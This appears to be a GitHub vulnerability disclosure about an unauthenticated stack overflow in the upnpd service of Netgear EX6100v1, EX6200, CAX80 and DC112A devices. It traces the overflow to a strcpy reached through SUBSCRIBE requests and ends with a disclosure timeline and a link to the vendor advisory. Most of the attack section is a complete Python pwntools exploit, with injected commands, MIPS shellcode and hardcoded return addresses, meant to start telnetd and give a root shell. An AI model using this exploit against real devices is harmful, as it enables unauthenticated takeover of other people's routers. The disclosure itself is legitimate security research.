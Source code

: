 # Netgear_product_stack_overflow

#### Impact products 

​	EX6100v1

​	EX6200

​	CAX80

​	DC112A

#### Affect device firmware

Link:

​	https://www.netgear.com/support/product/EX6100.aspx#Firmware%20Version%201.0.2.28

​	https://www.downloads.netgear.com/files/GDC/CAX80/CAX80-V2.1.3.5.zip

​	https://www.downloads.netgear.com/files/GDC/CAX80/CAX80-V2.1.2.6.zip

​	...

#### Describ

​	A stack overflow vulnerability exists in the upnpd service, which may lead to the execution of arbitrary code without authentication

#### Detail (Listing with ex6100v1)

​	In the upnp_main function, the data size of 0x1fff is accepted and stored in v81.

<img src="./img/image-20211007164319530.png" alt="image-20211007164319530" style="zoom:50%;" />

​	Next, in the figure below, the function v81 variable is called as the first parameter

<img src="./img/image-20211007164612323.png" alt="image-20211007164612323" style="zoom:50%;" />

​	When processing subscribe and unsubscribe requests, you will enter the gena_http_method_check function a1 with the previous v81 parameter, and follow up this function 

<img src="./img/image-20211007164656273.png" alt="image-20211007164656273" style="zoom:50%;" />

​	This function copies the input to the stack through strcpy, and the data is larger than the buffer, resulting in stack overflow. Arbitrary code can be executed without authentication

<img src="./img/image-20211007164927729.png" alt="image-20211007164927729" style="zoom:50%;" />



<img src="./img/image-20211007165050190.png" alt="image-20211007165050190" style="zoom:50%;" />

#### Summary(Listing with ex6100v1)

​	Because the general upnpd service is started by default, it is very harmful and can cause the execution of arbitrary code. This exp can open the latest firmware of EX6100 Telnetd service for devices,Can get a root shell

```
#!/usr/bin/python2
from pwn import *
import sys

def help():
	print "Usage: python exp.py [ip] [command]"
	print "In EX6100v1 Available commands are:arp, ash, basename, brctl, cat, chmod, cp, dmesg, echo, expr, grep, halt, " \
		  "hostname, ifconfig, init, init, insmod, kill, killall,n, ls, lsmod, mdev, mkdir, mknod, mount, mv, ping, poweroff,"\
		  "ps, pwd, reboot, rm, rmdir, rmmod, route, sh, sleep, sync, telnetd,test, tftp, top, tr, umount, uptime, usleep, vconfig, wc" \
		  "\nExample : python exp.py 192.168.0.110 'telnetd${IFS}-p${IFS}23'"

def get_ip_commond():
	ip_command=[]
	try:
		ip=sys.argv[1]
		ip_command.append(ip)
		if ip=="-h" or ip=="--help" or ip=="help":
			help()
			exit()
			print("aaa")
		command=sys.argv[2].replace(" ","${IFS}")
		ip_command.append(command)
		if ip==None or command ==None:
			print "please input ip and Command"
			exit()
	except:
		exit()
	return ip_command


if __name__=="__main__":
	res=get_ip_commond()
	p=remote(res[0],5000)
	request = "SUBSCRIBE /gena.{command};?service=" .format(command=res[1])+ "1" + " HTTP/1.0\n"
	request += "Host: " + "192.168.1.0:" + "80" + "\n"
	request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
	request += "NT: upnp:event\n"
	request += "Timeout: Second-1800\n"
	request += "Accept-Encoding: gzip, deflate\n"
	#request = 	request.ljust(0x1000,"a")
	print len(request)
	request += request+"doud"
	stg3_SC =''
	stg3_SC += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
	stg3_SC += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
	stg3_SC += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
	stg3_SC += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
	stg3_SC += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
	stg3_SC += "\xab\x0f\x02\x24\x0c\x09\x09\x01"
	#payload+= "d"*0x18
	request += request+stg3_SC
	request = request.ljust(0x1f00,"a")
	request += p32(0x7fff7030)
	request = request.ljust(0x1f48-0x14,"a")
	request += p32(0x422848)
	#request += p32(0x422944)
	#request += "a"*0x500
	#request += p32(0x7fff7030)*8
	p.send(request)
```

#### Timeline

The manufacturer has issued relevant announcements：

​	https://kb.netgear.com/000064615/Security-Advisory-for-Pre-Authentication-Command-Injection-on-EX6100v1-and-Pre-Authentication-Stack-Overflow-on-Multiple-Products-PSV-2021-0282-PSV-2021-0288?article=000064615

**On October 1, 2021, the loopholes were discovered and the report was written**

**On October 7, 2021, a vulnerability report was submitted,**

**On February 4, 2022, the manufacturer issued an announcement**

**On February 6, 2022, the vulnerability was disclosed on GitHub**
